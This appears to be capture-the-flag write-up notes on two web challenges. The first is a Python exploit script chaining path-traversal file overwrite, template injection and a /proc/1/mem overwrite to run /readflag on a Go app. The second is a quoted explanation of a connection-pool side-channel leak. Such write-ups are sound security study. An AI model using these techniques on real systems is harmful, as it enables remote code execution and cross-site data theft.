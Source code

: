 ## Sandevistan
Giving is a Go app and goal is to exexute /redflag in the server

- You can overwrite any file using ErrorFactory through POST to /cyberware
- Overwrite /tmpl/user.html to do SSTI
- Run SerializedErrors to overwrite /bin/true in /proc/1/mem
- Run UserHealthcheck to get the flag
```
import requests
# URL = "http://sandevistan.chal.perfect.blue:29005/"
URL = "http://localhost:1338/"

username = "user"

s = requests.session()
r = s.post(URL + "user", data={
    "username": username
})

r = s.post(URL + "cyberware", data={
    "username": "../tmpl/user.html",
    "name": '{{ .NewError "foo" "/proc/1/mem"  }} {{ .SerializeErrors "/readflag" 0 %d }} {{ .UserHealthcheck }}' % 0x93b6bb
})
r = s.get(URL + "user", params={
    "username": username
})
print(r.text)
```

ALTERNATE SOLUTION
![image](https://github.com/user-attachments/assets/a602ab0e-4322-4d83-899a-8a1c24073865)


## Bluenote
Couldnt find the actual chall but the writeups were something new i read
```
intended solution for bluenote was connection pool abuse yeah
if you block all the sockets, you can let individual blocks of requests go through if you unblock and reblock very quickly
so you block all the sockets, make your search guess, reblock quickly to let the page request through. so the search request is made, and now youre blocking the pool again 
then if your search is right, the page makes a request to dompurify, which should be blocked, and if the search is not right, there is no request 
then you make a request with lower priority than dompurify (i used script async), but higher priority than the background socket blocking fetches
then you allow one request through, if your script async went through there was nothing higher priority. if your script request did not go through, there mustve been something higher priority, meaning dompurify was loaded, meaning your search worked
```
